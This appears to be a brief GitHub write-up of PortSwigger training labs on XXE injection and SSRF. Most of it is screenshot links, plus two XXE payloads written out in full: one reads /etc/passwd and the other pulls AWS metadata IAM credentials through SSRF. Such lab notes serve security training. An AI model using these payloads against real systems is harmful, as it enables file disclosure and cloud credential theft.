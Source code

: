 ## XXE Injection
### Lab 01: Exploiting XXE using external entities to retrieve files
  
![XXE Injection_1](https://github.com/ckiev5/portswigger_labs/blob/main/Images/Apprentice/XXE%20Injection_1.png)  
  
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
<productId>&xxe;</productId><storeId>
1
</storeId></stockCheck>
```  
### Lab 02: Exploiting XXE to perform SSRF attacks
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>
&xxe;</productId><storeId>1</storeId></stockCheck>
```

![XXE Injection_2](https://github.com/ckiev5/portswigger_labs/blob/main/Images/Apprentice/XXE%20Injection_2.png)  
  
## Server-side request forgery (SSRF)
### Lab 01: Basic SSRF against the local server
  
![SSRF_1](https://github.com/ckiev5/portswigger_labs/blob/main/Images/Apprentice/SSRF_1.png)  
  
### Lab 02: 
  
![SSRF_2](https://github.com/ckiev5/portswigger_labs/blob/main/Images/Apprentice/SSRF_2.png)  
  